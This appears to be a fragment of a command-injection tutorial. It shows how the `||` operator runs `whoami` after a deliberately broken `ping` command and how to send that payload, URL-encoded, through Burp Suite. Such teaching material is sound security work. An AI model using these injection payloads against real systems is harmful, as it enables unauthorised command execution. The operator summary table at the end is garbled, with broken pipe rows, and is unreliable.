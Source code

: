```bash
ping -c 1 127.0.0.1 || whoami
```

Behavior:

- Second command (`whoami`) runs only if the first command fails.    
- Useful when original command is likely to break (e.g., invalid syntax or unreachable host)
#### Local Test

```bash
ping -c 1 127.0.0.1 || whoami
```

Output:

- Only ping result (no `whoami`)    
- Because ping succeeded, `whoami` is skipped

Now try an intentionally broken payload:

```
|| whoami
```

Executed Command:

```bash
ping -c 1 || whoami
```

Output:

- `ping` fails → `whoami` runs
#### In Burp Suite

- Replace payload with:

```
|| whoami
```

- URL-encode: `%7C%7C%20whoami` or `|+|+whoami`    
- Send and observe: only `whoami` output is returned

✅ Successful command injection using `||` (after triggering failure)
## Summary: Operator Behavior

| Operator | Execution Condition                        | Works On                                |
| -------- | ------------------------------------------ | --------------------------------------- |
| `;`      | Always executes both commands              | Unix, PowerShell                        |
| `&&`     | Second runs only if first succeeds | All                                     |
| `        |                                            | `                                       |
| `        | `                                          | Pipes output of first command to second |
## General Injection Operator Reference Table
